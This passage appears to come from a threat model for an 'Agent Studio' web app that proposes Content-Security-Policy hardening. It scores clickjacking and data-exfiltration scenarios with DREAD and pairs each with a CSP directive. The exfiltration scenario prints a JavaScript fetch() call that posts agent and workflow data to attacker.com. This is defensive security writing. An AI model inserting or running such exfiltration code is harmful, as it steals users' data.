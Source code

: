 **Prerequisites:**
- No CSP `frame-ancestors` directive
- No X-Frame-Options header
- User authenticated in Agent Studio

**Impact:**
- **Damage:** Unauthorized agent deletion, workflow execution
- **Reproducibility:** Medium (requires user interaction)
- **Exploitability:** Medium (UI redressing techniques)
- **Affected Users:** Users tricked into clicking
- **Discoverability:** Medium (requires manual testing)

**DREAD Score:** 6.4/10 (MEDIUM)

**CSP Mitigation:**
```
frame-ancestors 'none';
```
**Result:** ✅ Iframe embedding blocked entirely

#### Scenario 4: Data Exfiltration via connect-src

**Attack Vector:**
```javascript
// Attacker injects code to exfiltrate data
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({
    agents: await getAgents(),
    workflows: await getWorkflows(),
  })
});
```

**Prerequisites:**
- No CSP `connect-src` restriction
- XSS vulnerability allowing code injection
- Access to sensitive API data

**Impact:**
- **Damage:** Intellectual property theft, data breach
- **Reproducibility:** High (once XSS achieved)
- **Exploitability:** High (simple fetch API call)
- **Affected Users:** Users with access to sensitive data
- **Discoverability:** Low (requires code injection first)

**DREAD Score:** 8.2/10 (HIGH)

**CSP Mitigation:**
```
connect-src 'self' wss://*.signalr.net https://*.openai.azure.com;
```
**Result:** ✅ Exfiltration to attacker.com blocked

### Defensive Controls (Proposed Mitigation)

